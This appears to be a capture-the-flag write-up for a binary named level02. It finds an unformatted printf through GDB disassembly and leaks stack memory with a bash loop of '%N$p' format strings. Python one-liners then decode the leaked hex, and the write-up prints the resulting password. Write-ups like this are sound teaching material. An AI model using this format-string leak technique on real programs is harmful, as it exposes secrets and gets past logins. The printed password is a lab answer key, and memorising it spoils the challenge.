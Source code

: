 
# Level02 - Exploiting Format String Vulnerability to Retrieve Hidden Password

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: coucou
--[ Password: coucou
*****************************************
coucou does not have access!
```

The program prompts for a username and password, then denies access with a message.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The disassembly shows the presence of `fopen` and `fread` functions used to read a password file. More importantly, there's a critical format string vulnerability in the `printf` function:

```assembly
0x0000000000400a96 <+642>: lea    rax,[rbp-0x70]
0x0000000000400a9a <+646>: mov    rdi,rax
0x0000000000400a9d <+649>: mov    eax,0x0
0x0000000000400aa2 <+654>: call   0x4006c0 <printf@plt>
```

The `printf` call directly uses a variable without proper formatting, leading to a format string vulnerability.

## Step 3: Exploiting the Format String

Using the vulnerability, we can print the stack content. The following command tests different stack positions to reveal interesting information:

```bash
$ for(( i = 1; i < 42; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done
```

Notable stack outputs appear at positions 22 to 26, showing hexadecimal strings that resemble encoded data:

```
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

## Step 4: Converting Hex Strings to Characters

Convert these hexadecimal strings into readable ASCII text using Python:

```bash
$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
```

Combine all the decoded strings to form the password:

`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

## Summary

- The program has a format string vulnerability that allows printing stack data.
- Interesting data found in the stack positions can be decoded to retrieve a hidden password.
- The retrieved password is used to gain access, bypassing the login checks.

This approach demonstrates how to exploit format string vulnerabilities to extract sensitive information from a running program.
